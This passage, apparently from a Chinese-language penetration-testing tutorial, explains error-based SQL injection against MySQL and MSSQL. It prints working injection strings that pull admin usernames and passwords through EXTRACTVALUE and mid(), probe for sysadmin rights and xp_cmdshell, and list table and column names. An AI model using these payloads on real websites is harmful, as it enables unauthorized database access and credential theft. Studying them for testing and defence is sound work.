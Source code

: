 **一个问题：**
updatexml 和 EXTRACTVALUE函数都只能爆出32位数据，如果要爆出32位以后的数据，需要借助mid函数来进行字符截取从而显示32位以后的数据。
```
mid(string,start,[length])
```
![](http://image.ixysec.com/image/sql/sql074.png)

```
and EXTRACTVALUE(0,concat(0x7e,mid(concat(0x7c,(select concat(username,0x7c,password) from admin limit 1,1)),33),0x7e))
```
产生错误的语句是`concat(0x7c,(select concat(username,0x7c,password) from admin limit 1,1)`
用mid(）包起来从第33位开始显示剩余的，测试剩余的字符串有可能不会引起报错，所以在外面用concat(）又包了一层，头尾拼接了~符号，0x7c是~符号的16进制。

![](http://image.ixysec.com/image/sql/sql075.png)

##### MSSQL报错注入

MSSQL报错注入前提条件需要开启显示详细错误：web.config文件设置
```
<configuration>
    <system.web>
        <customErrors mode="Off"/>
    </system.web>
</configuration>
```

原理是利用MSSQL数据库的类型转换，将一些内容转换为数字时引发错误并将这些内容显示出来。

查信息：
```
and 1=(select @@VERSION)     //MSSQL版本
and 1=(select db_name())     //当前数据库名
and 1=(select @@servername)    //本地服务名
and 1=(select IS_SRVROLEMEMBER('sysadmin'))   //判断是否是系统管理员
and 1=(Select count(*) FROM master.dbo.sysobjects Where xtype = 'X' AND name = 'xp_cmdshell')     //判断XP_CMDSHELL是否存在
```

![](http://image.ixysec.com/image/sql/sql076.png)

也可以用`1/@@VERSION`，因为`/`是做除法运算，所以会将后面的数据尝试转换为int类型，同样也会产生错误。

![](http://image.ixysec.com/image/sql/sql077.png)

查询表名：
```
and 1=(select '|'%2bname%2b'|' from sqlin..sysobjects where xtype='U' FOR XML PATH(''))--   //sqlin是查询的数据库
and 1=(select quotename(name) from sqlin..sysobjects where xtype='U' FOR XML PATH(''))--  
```

![](http://image.ixysec.com/image/sql/sql078.png)

查询字段名：
```
and 1=(select quotename(name) from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))-- 
and 1=(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--
```
因为查询字段名要根据所属表名的id来查，所以用了一个子查询查出表名的id。
